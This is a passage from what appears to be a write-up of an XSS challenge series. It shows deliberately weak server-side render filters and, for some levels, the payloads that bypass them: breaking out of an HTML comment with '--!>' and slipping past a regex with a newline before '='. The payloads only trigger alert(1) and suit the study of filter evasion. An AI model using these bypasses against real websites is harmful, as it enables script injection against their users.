 input code:

```
--!><svg/onload=alert(1)>
```

html:

```
<!-- --!><svg/onload=alert(1)> -->
```

## 0x06

server code:

```
function render (input) {
  input = input.replace(/auto|on.*=|>/ig, '_')
  return `<input value=1 ${input} type="text">`
}
```

Analysis:

```
过滤以auto开头或者on开头，=等号结尾的标签属性并替换成_，且忽略大小写；
换行绕过；
```

input code:

```
onmousemove
=alert(1)
```

html:

```
<input value=1 onmousemove
=alert(1) type="text">
```

## 0x07

server code:

```
function render (input) {
  const stripTagsRe = /<\/?[^>]+>/gi

  input = input.replace(stripTagsRe, '')
  return `<article>${input}</article>`
}
```

Analysis:
